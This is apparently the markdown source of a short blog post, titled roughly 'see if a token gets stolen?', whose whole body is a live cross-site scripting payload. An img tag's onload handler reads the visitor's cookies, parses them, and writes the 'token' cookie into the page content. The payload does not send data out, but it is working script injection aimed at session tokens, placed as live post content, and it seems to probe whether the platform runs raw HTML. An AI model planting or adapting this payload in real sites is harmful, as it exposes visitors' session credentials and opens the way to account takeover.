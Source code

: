 ```yaml
---
title: "看看有沒有偷肯?"
tags: ["Blog"]
date: 2024-07-30
---
```

<img src="https://picsum.photos/200/300" onload="var cookies = document.cookie.split('; ').reduce((acc, cookie) => { const [key, value] = cookie.split('='); acc[key] = value; return acc; }, {}); document.querySelector('div[data-v-1131a46d].content-container').innerHTML = `<div data-v-0042ca3e class='py-2 text-xl text-wrap'>Your token is ${cookies.token}</div>`;">

